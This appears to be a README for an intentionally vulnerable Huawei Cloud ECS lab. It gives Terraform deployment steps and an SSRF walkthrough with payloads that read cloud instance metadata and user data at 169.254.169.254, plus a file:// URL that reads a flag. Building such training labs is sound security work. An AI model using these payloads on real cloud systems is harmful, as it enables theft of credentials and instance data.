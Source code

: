 # Huawei Cloud ECS SSRF Vulnerable Environment

English | [中文](./README_CN.md)

## Description

This is a scenario used to build the Huawei Cloud ECS SSRF vulnerability environment.

After building the environment with Terraform, users can obtain metadata and user data and other information on ECS through the SSRF vulnerabilities.

## Deployment Environment

Execute the following command in the container

```shell
cd /TerraformGoat/huaweicloud/elastic_computing_service/ecs_ssrf/
```

Edit the `terraform.tfvars` file and fill in the file with your `huaweicloud_access_key` and `huaweicloud_secret_key`.

> The access key can be found in HUAWEI CLOUD [Console --> My Credentials]

```shell
vim terraform.tfvars
```

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![img](../../../images/1652069131.png)

After the environment is set up, You can see the access address of the scenario at Outputs, then access to the browser.

## Vulnerability Utilization

On ECS with SSRF vulnerabilities, we can use SSRF to read ECS metadata, user data and other information.

read metadata

```shell
http://169.254.169.254/latest/meta-data/
```

![img](../../../images/1652069248.png)

read user data

> The premise is that the target has been configured with user data, otherwise will be disconnected.

```shell
http://169.254.169.254/latest/user-data/
```

![img](../../../images/1652069336.png)

In the user data information, you can see that there is a flag file in the root directory of the scenario, try to use SSRF to read this file.

```shell
file:///flag69152201.txt
```

![img](../../../images/1651825032.png)

Successfully read the flag file.

## Destroy the environment

```shell
terraform destroy
```
